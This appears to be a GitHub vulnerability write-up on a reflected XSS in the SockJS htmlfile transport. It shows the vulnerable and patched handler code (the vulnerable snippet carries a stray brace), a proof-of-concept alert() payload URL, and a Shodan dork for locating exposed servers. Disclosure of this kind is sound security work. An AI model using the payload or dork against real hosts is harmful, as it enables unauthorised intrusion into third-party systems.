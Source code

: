 ## Reflected-XSS-on-SockJS

# Summary:

There is a **Reflected XSS** in SockJS on versions before of 3.0.

# Vulnerable file:

The old versions problem is that the vulnerable file, *https://github.com/sockjs/sockjs-node/blob/master/lib/transport/htmlfile.js* and its function *htmlfile* is not checking the non-alphanumeric symbols:

```
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}
```

New versions check this, fixing the XSS :
``````
function htmlfile(req, res, _head, next) {
  if (!('c' in req.query || 'callback' in req.query)) {
    return next({
      status: 500,
      message: '"callback" parameter required'
    });
  }
  const callback = 'c' in req.query ? req.query['c'] : req.query['callback'];
  if (/[^a-zA-Z0-9-_.]/.test(callback)) {
    return next({
      status: 500,
      message: 'invalid "callback" parameter'
    });
  }

  res.setHeader('Content-Type', 'text/html; charset=UTF-8');
  res.writeHead(200);
  res.write(iframe_template.replace(/{{ callback }}/g, callback));

  Session.register(req, this, new HtmlFileReceiver(req, res, this.options));
  next();
}

``````
# Payload:

Payload to execute a RXSS is the next one:


https://<vulnerablehost>/<vulnerable_dir>/000/<some_UUID>/htmlfile?c=alert(%27SOCKJS%27)//
  
For example:

https://<vulnerablehost>/<vulnerable_dir>/000/0d1d5bc5-d326-4690-9e25-e08ef24a7e3a/htmlfile?c=alert(%27SOCKJS%27)//

![alt text](https://github.com/theyiyibest/Reflected-XSS-on-SockJS/blob/master/CVE%20Alert.jpg)
 
# Fix

New versions of this library are fixed.

# Bonus: Shodan recon
If you use the following dork: **html:"Welcome to SockJS!"** you will find some vulnerable servers. Just try 
